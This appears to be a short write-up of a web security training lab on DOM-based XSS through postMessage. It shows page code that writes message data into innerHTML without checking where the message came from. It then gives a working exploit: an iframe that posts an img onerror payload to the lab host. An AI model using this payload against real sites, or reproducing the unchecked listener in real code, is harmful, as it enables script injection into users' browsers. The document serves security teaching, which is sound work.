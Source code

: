 # 1 - XSS Web Messages

### Notes

The page contains a JavaScript snippet that adds an event listener for web messages with a callback that sets the innerHTML of the `#ads` div to the message's data.

```html
<!-- Ads to be inserted here -->
<div id='ads'>
</div>
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```

The following iframe will create a message onload that will ultimately result in the img element being set as the innerHTML of the `#ads` div. As the img src is set to "1", it will error on load and execute the `print()` method.

```html
<iframe 
  src="//0a3d00b6048387a3c0315ae6004f001e.web-security-academy.net"
  onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')"
></iframe>
```

